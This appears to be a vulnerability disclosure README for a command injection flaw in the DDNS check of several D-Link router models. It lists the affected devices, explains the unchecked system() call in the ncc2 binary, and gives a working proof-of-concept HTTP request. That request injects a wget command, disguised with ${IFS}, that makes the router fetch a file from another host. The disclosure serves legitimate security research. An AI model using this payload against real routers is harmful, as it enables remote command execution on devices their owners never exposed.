


# D-LINK_Router_Command_Injection

#### Official certification
https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10264

#### Impact equipment

D-Link DIR-820L  (Rev A) ALL

D-Link DIR-820L  (Rev B) ALL

DIR-830L A1 

D-Link DIR-810L (Rev A) ALL

D-Link DIR-810L (Rev B) ALL

D-Link DIR-810L (Rev A) ALL

D-Link DIR-826L (Rev A) ALL

DIR-836L (Rev A) 

DIR-820LW (Rev A)

#### Firmware_link

https://tsd.dlink.com.tw/

#### Detail

​	Router firmware such as D-Link dir-820l checks the DDNS function in ncc2 binary file for command injection, which can cause arbitrary command execution

#### Detail

​	There is a “doCheck” function in the ncc2 binary file, as shown below in IDA



​	 Can see that the ddnshostname and ddnusername variables are controllable and directly brought in without any check_ System function this function is essentially the execution of the formatted system function, resulting in command injection	



#### POC

```
POST /ddns_check.ccp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 186
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/storage.asp
Cookie: hasLogin=1

ccp_act=doCheck&ddnsHostName=;wget${IFS}http://192.168.0.100:9988/doudou.txt;&ddnsUsername=;wget${IFS}http://192.168.0.100:9988/doudou.txt;&ddnsPassword=123123123
```
